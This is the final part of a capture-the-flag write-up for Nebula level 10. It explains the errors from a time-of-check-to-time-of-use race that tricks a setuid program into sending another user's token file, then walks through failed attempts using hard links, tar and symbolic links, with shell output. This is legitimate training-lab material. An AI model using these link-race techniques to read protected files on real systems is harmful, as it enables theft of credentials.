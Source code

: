 ```
touch: cannot touch `/home/level10/token': Permission denied
level10@nebula:~$
```

Here are some possible explanations for some of the errors above:
1. `You don't have access to /home/level10/token` occured because the file was either deleted and not yet created, or the link to flag10's token file was created before the function `access` was called.
2. `Sending file .. Damn. Unable to open file` occured as the fake token file passed the `access` check, but just as the program called the function `open`, the script deleted the fake token file, and the link to flag10's token had not yet been created.
3. `touch: cannot touch '/home/level10/token': Permission denied` & `ln: creating hard link '/home/level10/token'Connecting to 192.168.1.111:18211 .. : File exists` probably occured as the background processes are fighting with each other over the files which are shared amongst them.


### Dumb failed attempts

Before I managed to solve the level, I desparately tried several other (dumb) methods. I will record them here just for laughs.

1. Using `ln` to bypass the permissions. It worked in level04, so I *assumed* it would work here. Obviously it would not. `ln` only allowed us to bypass the check in level04 where the program ensured the name was not "token". As the output below shows, `ln` changes neither the owner nor the permissions.
```
level10@nebula:/home/flag10$ ln token ~/tok
level10@nebula:/home/flag10$ cat ~/tok 
cat: /home/level10/tok: Permission denied
level10@nebula:/home/flag10$ ls -l ~
total 5
-rw------- 2 flag10  flag10   37 2011-11-20 21:22 tok
-rw-rw-r-- 1 level10 level10 382 2012-08-19 18:27 x
```

2. Trying to create a tarball archive. That way, after we extract the file, it will belong to `level10`.

> When extracting an archive, do not attempt to preserve the owner specified in the tar archive. This the default behavior for ordinary users. 
[source](https://www.gnu.org/software/tar/manual/tar.html#SEC137)

```
level10@nebula:/home/flag10$ tar cf ~/token token 
tar: token: Cannot open: Permission denied
tar: Exiting with failure status due to previous errors
```

3. We tried a hard link in point 1, and it failed. So I thought we could use a symbolic link instead. Afterall, the owner of the symbolic link is `level10`, so it should pass the `access` test. I failed to realise the important point below under the "Notes" section of the `access` man pages.

> access() always dereferences symbolic links. If you need to check the permissions on a symbolic link, use faccessat() with the flag AT_SYMLINK_NOFOLLOW.
 
```
level10@nebula:/home/flag10$ ln -s token ~/tok
level10@nebula:/home/flag10$ ls -l ~
total 1
lrwxrwxrwx 1 level10 level10   5 2018-04-02 09:58 tok -> token
-rw-rw-r-- 1 level10 level10 382 2012-08-19 18:27 x
level10@nebula:/home/flag10$ ./flag10 ~/tok 192.168.1.111
You don't have access to /home/level10/tok
```

END

